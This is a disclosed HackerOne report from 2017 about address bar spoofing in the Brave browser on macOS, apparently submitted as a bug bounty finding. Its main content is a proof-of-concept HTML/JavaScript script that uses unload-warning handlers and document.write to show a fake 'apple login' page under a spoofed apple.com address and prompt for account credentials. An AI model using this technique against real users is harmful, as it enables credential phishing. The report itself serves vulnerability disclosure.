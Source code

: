 # Address bar spoofing in Brave browser via. window close warnings

## Report Details
- **Report ID**: 208834
- **URL**: https://hackerone.com/reports/208834
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-02-25T08:54:01.874Z
- **Disclosed**: 2017-08-10T05:09:22.500Z

## Reporter
- **Username**: xifengweiyu
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: brave

## Vulnerability Information
Hello,
I would like to Report Address Bar spoofing vulnerability in Brave Browser on macOS.

## Summary:

When people visit the poc page,I notice them to type a DNS record exist but cannot access domain "access.apple.com" to address bar.then window will popup a close warnings,then phishing is beginning...


## Products affected: 

**macOS Sierra version:** 10.12.3

**Brave version:**

Brave: 0.13.4 
rev: 71d8ffc7278a90b22b8617d37880787c1781e694 
Muon: 2.56.4 
libchromiumcontent: 56.0.2924.87 
V8: 5.6.326.50 
Node.js: 7.4.0 
Update Channel: dev 
os.platform: darwin 
os.release: 16.4.0 
os.arch: x64


## Steps To Reproduce:

 1.POC script is:

```
<h1 id="msg">Next,type access.apple.com in the address bar.</h1>
<h1 id="spoof"></h1>
<script type="text/javascript">
spoof.style.display = 'none';
var done = 0;
var got = 0;
onbeforeunload = function(ev) {
  done = 1;
  return false;
}
onmousemove = function() {
  stop();
  if (done && !got) {
    msg.style.display = 'none';
    got = "1000";
    if (got) {
      document.write("<title>apple login</title><h1>This is not apple.com!!!</h1><scri"+"pt>onbeforeunload=function(){/*while(1){}*/};document.write('<input id=\\\'log\\\'>');window.stop();prompt('enter your apple account...');window.stop();location.assign('https://access.apple.com');</scrip"+"t>");
      spoof.style.display = 'block';
      log.value = got;
      
    }
  }
}
</script>
```

2. Or you can visit online poc page,then following page instruction:

[https://api.lightrains.org/poc/17.html](https://api.lightrains.org/poc/17.html)

Best regards!


## Attachments
- brave1.png
- brave2.png
